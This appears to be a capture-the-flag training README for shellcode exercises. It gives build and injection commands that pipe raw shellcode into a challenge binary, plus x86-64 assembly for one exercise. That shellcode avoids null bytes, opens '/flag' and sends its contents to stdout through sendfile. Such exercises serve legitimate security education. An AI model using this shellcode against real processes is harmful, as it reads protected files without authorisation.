# Shellcode exercises
To compile and give solution:
```
gcc -nostdlib -static -o file file.s
objcopy --dump-section .text=RawFile file
cat RawFile | /challenge/level_x
```
Before each source code:
```
.intel_syntax noprefix
.global _start
_start:
```
## ex 1
## ex 2
## ex 3
+ the shellcode must have NO null bytes
```
mov     rbx, 0x67616c662f111111
shr     rbx, 24
push    rbx

xor	rax, rax
inc     rax
inc     rax		                # rax = 2
mov     rdi, rsp	            # rdi = address of /flag
xor     rsi, rsi	            # rsi = 0
xor	rdx, rdx	                # rdx = 0
syscall			                # open

xor     rdi, rdi
inc     rdi		                # rdi = 1
mov     rsi, rax	            # rsi = rax (return value of open)
xor     rdx, rdx	            # rdx = 0
mov     r10w, 1000	            # r10 = 1000
xor     rax, rax
mov     al, 0x28	            # rax = 40
syscall			                # sendfile
```